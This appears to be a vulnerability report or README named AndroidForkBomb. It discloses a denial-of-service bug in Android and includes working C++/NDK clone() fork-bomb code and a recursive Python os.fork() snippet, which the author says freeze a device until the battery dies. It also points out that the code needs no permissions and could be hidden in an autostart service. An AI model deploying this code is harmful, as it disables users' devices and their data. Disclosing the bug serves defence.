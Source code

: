 # AndroidForkBomb

I found when I do such code exactly : (the code is in cpp using ndk - JNI ) :
```
  int cloneIt(void * args){
      for (int i = 0 ; i < 1000 ; i ++ ){
          pid_t  pid =  clone(cloneIt,
                              malloc(1),
                              CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID | SIGCHLD ,
                              NULL);
          __android_log_write(ANDROID_LOG_ERROR, "CLONE_ERRNO",
                              ("errno :  " + std::to_string(errno) + "  pid:" + std::to_string(pid )).c_str());
      }

      return 0 ;
  }
```
that function overflows the scheduler and makes the device unusable- it can't be turned off or do anything - use the touch or anything else until the battery dies. I found the bug when I played with python on termux and wrote that code :
```
import os
def cool():
    print(os.fork())
    cool()
cool()
```
so I reversed the sys calls using adb shell in the emulator - I opened termux and used strace and got that (attached file)

I am also attaching poc videos. I think this poc is critical because if someone puts such a function on autostart foreground service - the device and all of its data are worthless - it will just show the login wallpaper without turning off ( and without an option to do anything including turning off the device ). Thanks for the great os - Idan.
Please briefly explain who can exploit the vulnerability, and what they gain when doing so
every developer that have RCE or installed product with that code on the device .

no root privileges
do not require any permissions from the user - can be a method to make all the data unaccessable if the code will be in auto start service without any permissions .
